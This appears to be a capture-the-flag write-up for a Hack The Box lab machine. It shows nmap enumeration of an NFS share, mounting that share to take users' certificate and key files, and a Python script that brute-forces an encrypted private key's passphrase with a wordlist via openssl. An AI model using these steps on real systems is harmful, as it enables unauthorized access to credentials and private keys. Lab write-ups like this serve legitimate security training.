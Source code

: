 nfs port is open, we can enum with this nmap script:
```bash
nmap -sC -sV -p 2049 --script='nfs-*' $(cat ip.txt)
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-14 10:05 -04
Nmap scan report for dc01.scepter.htb (10.10.11.65)
Host is up (0.29s latency).

PORT     STATE SERVICE VERSION
2049/tcp open  mountd  1-3 (RPC #100005)
| nfs-showmount:
|_  /helpdesk

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.43 seconds
```

And then we mount it and check what it is inside:
```bash
sudo mount -t nfs $(cat ip.txt):/helpdesk /mnt/nfs
root@shafou:/mnt/nfs# ls
baker.crt  baker.key  clark.pfx  lewis.pfx  scott.pfx
```

There is a cert/key pair for `d.baker` but the private key is encrypted.
```bash
...
  Issuer: DC = htb, DC = scepter, CN = scepter-DC01-CA
  Validity
      Not Before: Nov  2 01:13:46 2024 GMT
      Not After : Nov  2 01:13:46 2025 GMT
  Subject: DC = htb, DC = scepter, CN = Users, CN = d.baker, emailAddress = d.baker@scepter.htb
  Subject Public Key Info:
...
```

Made a simple python script to try and bruteforce it. Worked pretty fast.
```bash
import subprocess
from concurrent.futures import ThreadPoolExecutor

wordlist = "/home/shafou/wordlists/rockyou.txt"
keyfile = "./baker.key"
outfile = "decrypted.key"

def try_password(word):
    word = word.rstrip()
    result = subprocess.run(
        f"openssl pkcs8 -inform PEM -in {keyfile} -out {outfile} -passin pass:'{word}'",
        shell=True,
        capture_output=True
    )
    if b"maybe wrong password" not in result.stderr and b"No supported data to decode" not in result.stderr and b"Error decrypting key" not in result.stderr:
        print(f"[+] Password found: {word}")
        return True

    return False

words = [line.rstrip() for line in open(wordlist, encoding="latin-1").readlines()]

with ThreadPoolExecutor(max_workers=10) as executor:
    for success in executor.map(try_password, words):
        if success:
            break
```

